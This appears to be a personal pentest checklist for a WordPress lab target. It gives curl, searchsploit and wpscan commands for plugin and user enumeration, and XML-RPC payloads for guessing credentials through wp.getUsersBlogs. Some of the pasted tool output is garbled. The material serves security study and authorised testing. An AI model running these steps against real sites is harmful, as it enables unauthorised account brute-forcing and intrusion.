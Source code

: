 # Prerequisites

> [!success] Prerequisites
>
> - [ ] Register for a WpScan API Token in `$WPSCAN_API_TOKEN`

# Enumeration
- [ ] Get plugins
```bash
curl -s -X GET "http://$target:80/" | grep -oP 'plugins/\K[^/]+' | sort -u 
```

- [ ] Check for `wp-admin/` on the search bar

  ```bash
  localhost:31337/wp-admin/
  ```

- [ ] Check the web, click blog entries and check if you find other users

  ```bash
  localhost:31337/?author=1
  ```

- [ ] Enumerate if a known user is valid by attempting to log in the web panel.

- [ ] Search for exploits in [[exploit-db]] by using `searchsploit`
  ```bash
  searchsploit wordpress user enumeration
  ```

- [ ] Try find a exploit using `searchsploit`the
  ```bash
  searchsploit wordpress user enumeration
  ```

- [ ] Check `/wp-json/wp/v2/users/` if it's vulnerable

- [ ] Check `localhost:31337/wp-content/plugins` for directory listing

- [ ] Enumerate plugins manually
  ```bash
  curl -s -X GET "http://localhost:31337" |
  	grep -oP 'plugins/\K[^/]+]' | sort -u
  ```

- [ ] Run `wpscan` to try find vulnerabilities

  ```
  wpscan --url http//127.0.0.1:31337 --api-token=$WPSCAN_API

  [+] social-warfare
   | Location: http://<addr>/wp-content/Rlugins/social-warfare/
   | Last Updated: 2021-J07-20116:09:00.000z
   | [!] The version is out of date, the latest version is 4.3.0
  ```

- [ ] Check `xmplrpc.php`. If it exists could be used for credential discovery.
  ```bash
  curl -s -X POST "http://localhost:31337/xmlrpc.php"
  ```

- [ ] Try [exploiting `xmlrpc.php` on WordPress](https://nitesculucian.github.io/2019/07/02/exploiting-the-xmlrpc-php-on-all-wordpress-versions/))

  Create a `file.xml` file

  ```xml
  <?xml version="1.0" encoding="utf-8"?>
  <methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
  </methodCall>
  ```

  Send it via POST

  ```bash
  curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml |
  	grep 'wp.getUsersBlogs'
  ```

  Enumerate credentials
  ```xml
  <?xml version="1.0" encoding="utf-8"?>
  <methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
  <param><value>username</value></param>
  <param><value>password</value></param>
  </params>
  </methodCall>
  ```

  Send it

  ```bash
  curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml |
  	cat -l xml
  ```

  Now create a [[xmlrpcBruteforce.sh]] to attempt to find the password.
